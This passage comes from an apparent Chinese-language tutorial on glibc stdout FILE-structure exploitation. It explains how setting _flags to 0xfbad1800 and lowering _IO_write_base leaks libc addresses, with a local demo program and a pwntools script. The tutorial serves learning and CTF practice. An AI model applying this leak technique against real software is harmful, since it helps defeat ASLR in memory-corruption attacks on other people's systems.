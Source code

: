 ```cpp
        fp->_offset = _IO_pos_BAD;
    else if (fp->_IO_read_end != fp->_IO_write_base)
    {
        _IO_off64_t new_pos
            = _IO_SYSSEEK (fp, fp->_IO_write_base - fp->_IO_read_end, 1);
        if (new_pos == _IO_pos_BAD)
            return 0;
        fp->_offset = new_pos;
    }
    count = _IO_SYSWRITE (fp, data, to_do);
    // ...
    _IO_setg (fp, fp->_IO_buf_base, fp->_IO_buf_base, fp->_IO_buf_base);
    fp->_IO_write_base = fp->_IO_write_ptr = fp->_IO_buf_base;
    // ...
    return count;
}
```

函数中调用 `_IO_SYSSEEK` 会改变缓冲区写入文件位置，所以为了排除这个影响，需要使 `_flags & _IO_IS_APPENDING` 或 `fp->_IO_read_end == fp->_IO_write_base` 任一条件成立才能绕过，调用 `_IO_SYSWRITE` 将 put 缓冲区内容输出到标准输出文件流，输出之后 put、get 相关缓冲区指针都会被重置，完成缓冲区刷新操作。

经上可知，为了实现将篡改后 `_IO_write_base` 指向数据能被正确的写入到标准输出，需要使满足下面条件：

- `_flags & _IO_NO_WRITES == _IO_NO_WRITES`
- `_flags & _IO_CURRENTLY_PUTTING == _IO_CURRENTLY_PUTTING`
- `_flags & _IO_IS_APPENDING == _IO_IS_APPENDING` 或 `_IO_read_end == _IO_write_base`

所以使 `_flags = 0x00000000fbad1800` 刚好可以满足上面条件，然后控制 `_IO_write_base` 指针输出原始缓冲区之前的内容即可。

然后再来看为什么只需要将 `_IO_write_base` 改向前一些就可以输出 libc 地址，一般是把低位字节置为 0x00。

这里利用之前的 HelloWorld 代码做个测试，因为满足前面泄漏 libc 的条件，所以不出意外的话输出中包含许多 libc 地址：

```cpp
#include <stdio.h>

int main() {
  setvbuf(stdout, 0, 2, 0);  // no buffer
  stdout->_flags = 0x00000000fbad1800;
  stdout->_IO_write_base = (char *)(((unsigned long long)stdout->_IO_write_base) & 0xffffffffffffffffff00);
  printf("Hello, world!\n");
  return 0;
}
```

用 `g++ main.cpp` 命令编译生成 `a.out`，用这个脚本加载获取返回内容：

```python
from pwn import *

p = process("./a.out")
# gdb.attach(p)
print(p.recvall())

# pause()
```
